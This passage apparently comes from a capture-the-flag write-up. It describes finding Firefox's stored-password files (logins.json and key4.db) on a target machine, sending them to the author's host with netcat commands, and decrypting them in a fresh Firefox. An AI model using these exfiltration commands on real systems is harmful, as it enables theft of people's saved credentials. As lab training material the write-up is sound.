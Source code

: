 The only interesting directory was `mozilla` so I just kept on going in till I came across `login.json`. After reading a bit I found out that mozilla keeps password in `login.json` and in `key4.db`.

Reading them on the machine wasn't possible.

![alt text](Images/nothing.png)

We can see it;s in the encrypted form. So now we'll have to get those file to our system so we can just read it.

For this we use `netcat`. All we have to do is send from the `machine` and receive on our end.

On **Machine**
```
/bin/nc -w 3 10.10.12.163 5556 < logins.json
```

On **Your system**
```
nc -l -p 5556 > logins.json
```

And do the same for the `key4.db`

On **Machine**
```
/bin/nc -w 3 10.10.12.163 5556 < key4.db
```

On **Your System**
```
nc -l -p 5556 > key4.db
```


This way we have both the key4.db and login.json. I imported both of those file in a fresh installed firefox(not to mess my existing one) and we can see the password.

![alt text](Images/logins.png)
